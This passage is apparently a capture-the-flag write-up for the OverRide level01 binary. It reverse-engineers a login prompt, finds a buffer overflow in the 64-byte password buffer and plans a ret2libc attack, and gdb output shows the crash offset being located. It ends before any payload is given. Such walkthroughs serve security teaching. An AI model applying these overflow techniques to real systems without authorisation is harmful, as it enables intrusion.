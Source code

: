 Okay, we have aa better look of our binary.
- There is a global variable `char a_user_name[100]`.
- The `main` function initializes the `char s[64]` and `bool v5`
- It stores our input in `a_user_name` and calls the function `verify_user_name`, and this function compares the username we pass with the string `dat_wil`.
1. If not equal, it prints `nope, incorrect username...` and exits.
2. If equal, it stores our input in `s` and verifies the password with the function `verify_user_pass`. BUT, no matter what we input, it will always print `nope, incorrect password...\n` and exits.

# _What we can do ?_

The `NX` bit is disabled, so we can try to **`Ret2Libc`** attack. The variable `s` may be exploitable.

## 1. Find the offset

`s` is a buffer of 64 bytes, it stores only the password we pass, let's try to crash the binary by passing a string over `64 bytes` :
```sh
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
nope, incorrect password...

Segmentation fault (core dumped)
level01@OverRide:~$
```

### Okay, super

With the [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), we can generate a string of `100 bytes` and pass it to the binary and find the offset :

```sh
(gdb) r
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) 
```
